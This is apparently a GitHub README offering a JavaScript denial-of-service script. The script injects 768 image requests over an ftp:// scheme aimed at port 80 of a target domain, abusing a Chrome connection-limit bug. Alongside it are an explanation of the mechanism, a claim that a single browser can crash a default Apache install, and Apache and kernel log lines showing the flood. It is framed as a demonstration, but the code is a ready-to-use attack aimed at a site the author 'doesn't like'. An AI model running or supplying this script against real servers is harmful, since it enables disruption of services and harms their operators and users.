 # Denial-of-Service with JavaScript in the browser
[![License](http://img.shields.io/:license-gpl3-blue.svg)](http://www.gnu.org/licenses/gpl-3.0.html)

A demonstration of how easy it is to DoS a web server just from the browser.

## The Code

```js
var domain = 'site-i-dont-like.com';
for( i = 0; i < 768; ++i ) {
  var img = document.createElement('img');
  img.setAttribute('src', 'ftp://' + domain + ':80/image' + new Date().getTime() + i );
  document.body.appendChild(img);
}
```

Also found in `dos.js` in this repo

## How it works

Normally, the browser allows you to make only a few requests in parallel to a
single host. Chrome has a bug, where if you use a different protocol in the
URL, let's say FTP instead of HTTP, you can circumvent this limitation and open
pretty much any number of connections to a website.

Consider the code shown above. It adds 768, coincidentally the default number
of connections Nginx is configured to allow by default, different images to
the body of the current document triggering a download in the browser for each
asset.

The catch is, we use the FTP protocol in the url, but target the port :80
instead of the default ftp port, abusing the Chrome protocol limit bug.

That means 768 connections to a web server port 80 are made from a single
browser running this piece of script.

Just one browser running the code above is enough to crash a default Apache
installation. You'll just see this error in your Apache error log, and apache
will crash and needs to be restarted.

```
[Fri Aug 19 20:26:10.615562 2016] [mpm_event:error] [pid 30006:tid 139706789676928] AH00484: server reached MaxRequestWorkers setting, consider raising the MaxRequestWorkers setting
```

Nginx fares a bit better, but even a moderate amount of clients flooding port
80 with hundreds of connections will slow nginx down to a halt. Although, I
couldn't get it to completely crash like Apache in my tests so props Nginx !

Also as a point of interest, the Linux kernel seems to do be able to detect
this flooding. Here's an entry from the syslog during my testing.

```
Aug 19 20:17:28 chi1 kernel: [3027272.966535] TCP: TCP: Possible SYN flooding on port 80. Sending cookies.  Check SNMP counters.
```
